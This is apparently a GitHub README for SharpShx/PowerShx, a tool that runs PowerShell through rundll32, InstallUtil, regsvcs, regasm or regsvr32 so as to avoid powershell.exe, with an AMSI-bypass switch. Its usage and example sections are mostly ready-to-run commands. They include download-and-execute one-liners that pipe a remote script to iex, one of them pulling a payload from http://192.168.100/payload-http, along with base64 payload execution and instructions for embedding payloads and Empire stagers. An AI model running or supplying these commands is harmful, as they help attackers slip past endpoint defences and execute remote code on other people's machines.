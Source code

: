 <div align="center">
    <h1>SharpShx</h1>
    <br/>
</div>

Unmanaged PowerShell execution using DLLs or a standalone executable.

## Introduction
PowerShx is a rewrite and expansion on the [PowerShdll](https://github.com/p3nt4/PowerShdll) project. PowerShx provide functionalities for bypassing AMSI and running PS Cmdlets.


### Features
- Run Powershell with DLLs using rundll32.exe, installutil.exe, regsvcs.exe or regasm.exe, regsvr32.exe.
- Run Powershell without powershell.exe or powershell_ise.exe
- AMSI Bypass features.
- Run Powershell scripts directly from the command line or Powershell files
- Import Powershell modules and execute Powershell Cmdlets.


## Usage

### .dll version
#### rundll32
```
rundll32 PowerShx.dll,main -e                           <PS script to run>
rundll32 PowerShx.dll,main -f <path>                    Run the script passed as argument
rundll32 PowerShx.dll,main -f <path> -c <PS Cmdlet>     Load a script and run a PS cmdlet
rundll32 PowerShx.dll,main -w                           Start an interactive console in a new window
rundll32 PowerShx.dll,main -i                           Start an interactive console
rundll32 PowerShx.dll,main -s                           Attempt to bypass AMSI
rundll32 PowerShx.dll,main -v                           Print Execution Output to the console
```

#### Alternatives (Credit to SubTee for these techniques):
```
1. 
    x86 - C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U PowerShx.dll
    x64 - C:\Windows\Microsoft.NET\Framework64\v4.0.3031964\InstallUtil.exe /logfile= /LogToConsole=false /U PowerShx.dll
2. 
    x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe PowerShx.dll
    x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regsvcs.exe PowerShx.dll
3. 
    x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe /U PowerShx.dll
    x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /U PowerShx.dll
4. 
    regsvr32 /s  /u PowerShx.dll -->Calls DllUnregisterServer
    regsvr32 /s PowerShx.dll --> Calls DllRegisterServer
```

### .exe version
```
PowerShx.exe -i                          Start an interactive console
PowerShx.exe -e                          <PS script to run>
PowerShx.exe -f <path>                   Run the script passed as argument
PowerShx.exe -f <path> -c <PS Cmdlet>    Load a script and run a PS cmdlet
PowerShx.exe -s                          Attempt to bypass AMSI.
```

## Embedded payloads
Payloads can be embedded by updating the data dictionary "Common.Payloads.PayloadDict" in the "Common" project and calling it in the method PsSession.cs -> Handle() . 
Example: in Handle() method:

```
private void Handle(Options options)
{
  // Pre-execution before user script
  _ps.Exe(Payloads.PayloadDict["amsi"]);
}
```


## Examples
#### Run a base64 encoded script
```
rundll32 PowerShx.dll,main [System.Text.Encoding]::Default.GetString([System.Convert]::FromBase64String("BASE64")) ^| iex

PowerShx.exe -e [System.Text.Encoding]::Default.GetString([System.Convert]::FromBase64String("BASE64")) ^| iex
```
Note: Empire stagers need to be decoded using [System.Text.Encoding]::Unicode


#### Run a base64 encoded script
```
rundll32 PowerShx.dll,main . { iwr -useb https://website.com/Script.ps1 } ^| iex;

PowerShx.exe -e "IEX ((new-object net.webclient).downloadstring('http://192.168.100/payload-http'))"
```

## Requirements
.NET 4


## Known Issues
Some errors do not seem to show in the output. May be confusing as commands such as Import-Module do not output an error on failure.
Make sure you have typed your commands correctly.

In dll mode, interractive mode and command output rely on hijacking the parent process' console. If the parent process does not have a console, use the -n switch to not show output otherwise the application will crash.

Due to the way Rundll32 handles arguments, using several space characters between switches and arguments may cause issues. Multiple spaces inside the scripts are okay.

